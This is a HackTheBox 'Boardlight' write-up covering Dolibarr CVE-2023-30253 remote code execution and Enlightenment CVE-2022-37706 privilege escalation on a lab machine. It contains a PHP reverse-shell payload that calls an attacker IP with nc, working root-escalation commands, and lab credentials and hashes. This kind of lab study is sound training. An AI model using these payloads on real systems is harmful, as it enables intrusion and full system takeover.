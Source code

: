 ```yaml
---
title: "Boardlight"
date: 2025-08-15 14:13:00 +0500
categories: [Boxes]
tags: [HTB, Box, Linux, Easy, Authenticated RCE, CVE-2023-30253, Enlightenment Local Privilege Escalation]
---
```


## Recon

### Port Discovery

```bash
sudo nmap -PN -sC -sV -oN boardlight 10.10.11.11
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 14:12 PKT
Nmap scan report for 10.10.11.11
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.92 seconds
```

Let's interact with Port 80.

### Web Enumeration

#### Fingerprinting

```bash
whatweb 10.10.11.11                                                                  
http://10.10.11.11 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.11], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]
```

![alt text](/assets/images/boardlight-web.png)

There isn't much on the web page. Let's start by enumerating for vhost.

#### vhost Enumeration

```bash
gobuster vhost -u http://board.htb -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt --append-domain -t 60
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://board.htb
[+] Method:          GET
[+] Threads:         60
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb Status: 200 [Size: 6360]
Progress: 2280 / 2281 (99.96%)
===============================================================
Finished
===============================================================
```

Let's add the subdomain `crm` to our `/etc/hosts` file. Then let's interact with the subdomain.

### crm.board.htb

![alt text](/assets/images/boardlight-crm.png)

On trying the default credentials `admin:admin` we are able to authenticate.

Let's search for any known vulnerabilities in Dolibarr CRM 17.0.0

There's an authenticated RCE associated with Dolibarr CRM 17.0.0

[CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253)

Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase manipulation: <?PHP instead of <?php in injected data.

We are able to create a website?

![alt text](/assets/images/boardlight-dolibarr.png)

## Foothold

To get a foothold we will create a website (give it any name), then create a page (again any name).

- Then on that page `Edit HTML Source`. 
- Insert this payload between the `<section></section>`:

```php
<?PHP system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.30 1234 >/tmp/f"); ?>
```

- Save.
- Enable show dynamic content.
- You have a shell.

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.11] 39224
sh: 0: can't access tty; job control turned off
$ whoami
www-data

$ python3 -c "import pty; pty.spawn('/bin/bash');"
```

We find some creds:

```bash
cat conf/conf.php                                  
$dolibarr_main_db_user='dolibarrowner';                                                                                                                                                                       
$dolibarr_main_db_pass='serverfun2$2023!!';                                                                                  
$dolibarr_main_db_type='mysqli';                                                                                       
```

### Enumerating mysql

Time to check what the database hides:

```bash
www-data@boardlight:~$ mysql -u dolibarrowner -p
use dolibarr;

mysql> select * from llx_user;
<SNIP>
|     1 |      0 |              | NULL    |     1 |        1 |                0 | 2024-05-13 13:21:56 | 2024-05-13 13:21:56 |          NULL |          NULL | dolibarr | NULL          | NULL | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm | NULL      | NULL         |        |          | SuperAdmin |           |         |      |      |     NULL |       NULL | NULL  | NULL        |      |              |            |             |                 |       |                |           | null           |   NULL |         NULL |      NULL |    NULL |                      NULL |                      NULL | NULL    | NULL    | NULL    |             |              | NULL      | 2024-05-15 09:57:04 | 2024-05-13 23:23:59 | NULL                   | NULL              | NULL            | 10.10.14.31 | 10.10.14.41     |          NULL |          | NULL   |      1 | NULL  | NULL |       | NULL    |               0 |                  |          0 | NULL | NULL |   NULL |        NULL | NULL           | NULL              |        NULL | NULL       |          NULL |                  NULL |                              |         NULL |
|     2 |      1 |              | NULL    |     0 |        1 |                0 | 2024-05-13 13:24:01 | 2024-05-15 09:58:40 |          NULL |          NULL | admin    | NULL          | NULL | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 | NULL      | yr6V3pXd9QEI | NULL   |          | admin      |           |         |      |      |     NULL |       NULL | NULL  | NULL        |      |              |            |             |                 |       |                |           | []             |   NULL |         NULL |      NULL |    NULL |                      NULL |                      NULL | NULL    | NULL    | NULL    |             |              | NULL      | 2025-08-15 02:54:01 | 2024-05-17 00:19:27 | NULL                   | NULL              | NULL            | 10.10.16.30 | 10.10.14.41     |          NULL |          | NULL   |      1 | NULL  | NULL |       | NULL    |               0 |                  |          0 | NULL | NULL |   NULL |        NULL | NULL           | NULL              |        NULL | NULL       |          NULL |                  NULL |                              |         NULL |
<SNIP>
2 rows in set (0.00 sec)

```

We have a bcrypt hash:

`$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm`

### Shell as larissa

Nevermind, this was a rabbit hole. We can simply `su` as larissa without having to crack the hash. `larissa:serverfun2$2023!!`. We can also ssh using the creds.

## Privilege Escalation

#### LinPEAS

From the output on LinPEAS: 

```bash
Vulnerable to CVE-2021-3560
```

But I am certain this isn't intended as the user directory has some unusual directories. 

```bash
larissa@boardlight:~$ ls -la
total 80
drwxr-x--- 16 larissa larissa 4096 Aug 15 03:04 .
drwxr-xr-x  3 root    root    4096 May 17  2024 ..
lrwxrwxrwx  1 root    root       9 Sep 18  2023 .bash_history -> /dev/null
-rw-r--r--  1 larissa larissa  220 Sep 17  2023 .bash_logout
-rw-r--r--  1 larissa larissa 3771 Sep 17  2023 .bashrc
drwx------  2 larissa larissa 4096 Aug 15 03:03 .cache
drwx------ 12 larissa larissa 4096 May 17  2024 .config
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Desktop
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Documents
drwxr-xr-x  3 larissa larissa 4096 May 17  2024 Downloads
drwx------  3 larissa larissa 4096 Aug 15 03:04 .gnupg
drwxr-xr-x  3 larissa larissa 4096 May 17  2024 .local
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Music
lrwxrwxrwx  1 larissa larissa    9 Sep 18  2023 .mysql_history -> /dev/null
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Pictures
-rw-r--r--  1 larissa larissa  807 Sep 17  2023 .profile
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Public
drwx------  2 larissa larissa 4096 May 17  2024 .run
drwx------  2 larissa larissa 4096 May 17  2024 .ssh
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Templates
-rw-r-----  1 root    larissa   33 Aug 15 02:52 user.txt
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Videos
```

Also from LinPEAS output:

```bash
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                            
                      ╚════════════════════════════════════╝                                                                                                                                                  
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                                               
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                                                                                     
-rwsr-sr-x 1 root root 15K Apr  8  2024 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 467K Jan  2  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 386K Jul 23  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 44K Feb  6  2024 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 55K Apr  9  2024 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 163K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 67K Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 84K Feb  6  2024 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 39K Apr  9  2024 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 87K Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 67K Feb  6  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 52K Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 15K Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
```

There's a LPE exploit associated with enlightenment_sys:

[LPE](https://www.exploit-db.com/exploits/51180)

```bash
larissa@boardlight:~/.config$ mkdir -p /tmp/net
larissa@boardlight:~/.config$ mkdir -p "/dev/../tmp/;/tmp/exploit"
larissa@boardlight:~$ echo "/bin/sh" > /tmp/exploit
larissa@boardlight:~$ chmod a+x /tmp/exploit

larissa@boardlight:/usr/lib/x86_64-linux-gnu/enlightenment/utils$ ./enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

---
